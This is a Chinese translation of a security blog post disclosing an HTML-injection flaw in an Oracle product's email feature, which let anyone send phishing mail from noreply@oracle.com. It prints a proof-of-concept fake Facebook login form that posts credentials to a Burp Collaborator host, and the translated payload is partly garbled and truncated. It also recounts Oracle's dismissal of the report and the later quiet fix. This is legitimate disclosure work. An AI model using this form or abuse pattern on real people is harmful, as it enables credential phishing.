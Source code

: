 # 如果甲骨文的邮件服务器把这个发给你，你会怎么做？

> 原文：<https://infosecwriteups.com/what-would-you-do-if-oracles-mailing-server-sent-you-this-bc275b1bf967?source=collection_archive---------4----------------------->

## 网络钓鱼通过。HTML 注入！

这篇博客讲述了一个 Oracle 产品中的弱输入验证案例如何让我通过向世界上的任何人发送钓鱼邮件。甲骨文的邮件服务器。我觉得甲骨文对这一发现的回应会引起许多安全研究人员的共鸣

## **背景**

易受攻击的应用程序捕获面向用户的指标，如利用率和日志，可以查看和导出这些指标以供进一步处理。作为其他功能的一部分，该应用程序允许其用户通过电子邮件将这些指标发送到用户定义的电子邮件地址。

## 漏洞

像任何其他电子邮件功能一样，该应用程序允许用户在“收件人”输入框中输入电子邮件地址，以及“主题”和“正文”。我向我的个人电子邮件 ID 发送了一封测试邮件，在“正文”字段中输入了以下内容。

> # 甲骨文报告

在我从应用程序中触发电子邮件后不久，我收到了一封带有上述输入的电子邮件，**将**解析为 HTML 代码。

![](img/9fc379f5ddb5d459815c137498435ef2.png)

请注意，该电子邮件是由 Oracle 的一个邮件服务器触发的。这证实了应用程序没有验证用户输入，从而允许任意 HTML 代码作为电子邮件正文的一部分呈现；典型的 HTML 注入。

为了展示这种漏洞如何被利用来执行社会工程攻击(如鱼叉式网络钓鱼)的概念证明，我制作了以下有效载荷并触发了另一封电子邮件。

> *<html><head></head><body><h1>准备好大吃一惊吧！使用脸书登录以了解更多信息！</h1><form action = " http://test . burpcollaborator . net " method = " get " target = " _ blank "><label for = " Email ID ">Email ID</label>input type = " text " ID = " Email ID " name = " Email ID "><br><br><label for = " Password "【T33*

几分钟后，不出所料，我收到了一封来自 noreply@oracle.com 的电子邮件，邮件正文中包含了我的 HTML 代码。现在使用这一功能，我可以向世界上的任何人发送这样的电子邮件，并等待不知情的受害者对电子邮件采取行动。

![](img/6d852e6278208b2d3f69d55b58066afd.png)

一旦不知情的受害者输入他们的有效凭据并单击“登录”按钮，这些凭据将被攻击者的服务器捕获(在这种情况下，我使用 Burp Collaborator)，从而获得对受害者社交媒体帐户凭据的访问权限(实际上是任何内容，取决于电子邮件正文)。

![](img/8cd45b20668a4f59b51aaa7bed49f882.png)

## 影响

该应用程序具有注册功能，允许用户创建帐户。不仅如此，默认情况下，新创建的用户还具有管理员角色(唯一可以访问电子邮件功能的角色)。用户可以通过许多技术(如 Google Dorks)获得电子邮件转储，并向任何这些用户发送钓鱼电子邮件。简而言之，任何人都可以创建一个帐户并向任何人发送带有合法电子邮件内容的网络钓鱼电子邮件，因为该电子邮件是从 Oracle 邮件服务器 noreply@oracle.com 接收的

## 结果

我最终向甲骨文报告了这个漏洞。他们驳回了这个问题，说他们不认为这是一个风险，这是一个预期的功能，并按照设计工作。关于它的影响，来回发送了多封电子邮件，但该团队坚持自己的立场，拒绝了这一发现。

几个月后，我发现他们通过实现输出编码解决了这个问题，不再让用户输入未经净化就被解析。

![](img/6371c3dbf3d9f0e7cc9550d62aa5a61e.png)

应用程序不再解析电子邮件正文。

当被问及为什么他们拒绝了我的报告(因为没有风险)，但后来修复了这个问题时，他们提到这是作为功能升级修复的，而不是因为他们认为这是一个漏洞。无论如何，我已经在好几个场合看到过这样的回应和沉默的补丁，我不认为这种心态会很快消失。

## 非常感谢博客上的反馈和见解。欢迎发表评论或在推特上联系我。